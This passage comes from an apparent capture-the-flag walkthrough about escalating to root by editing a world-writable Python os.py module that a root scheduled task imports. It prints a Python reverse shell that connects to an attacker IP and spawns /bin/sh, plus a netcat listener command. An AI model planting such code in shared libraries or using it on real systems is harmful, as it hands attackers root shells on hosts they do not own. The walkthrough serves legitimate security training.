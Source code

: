 We have rwx privileges on the os.py module! This is obviously a security misconfiguration. As a non-privileged user, I should only have read access to the script. If we add a reverse shell to the script and wait for the root owned scheduled task to run, we’ll get back a reverse shell with root privileges!

I tried accessing the os.py script using vi but the terminal was a bit screwed up. Here’s a way to fix it \(courtesy of ippsec\).

Go to a new pane in the attack machine and enter the following command.

```text
stty -a 
```

![](../images/max/1019/1*YQ8m2vZcksaAjlfOhOR4DQ.png)

We need to set the rows to 29 and the columns to 113. Go back to the netcat session and run the following command.

```text
stty rows 29 columns 113
```

Even after this, vi was still a bit glitchy, so instead, I decided to download the os.py module to my attack machine using SMB, add the reverse shell there and upload it back to the target machine.

Add the following reverse shell code to the bottom of the os.py file and upload it back to the target machine.

```text
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.6",1233));
dup2(s.fileno(),0); 
dup2(s.fileno(),1); 
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Setup a listener on the attack machine.

```text
nc -nlvp 1233
```

Wait for the scheduled task to run the reporter.py script that will in turn call the os.py module which contains our reverse shell code.

![](../images/max/585/1*jjQSBmqo_rt1ZNVARm-xiw.png)
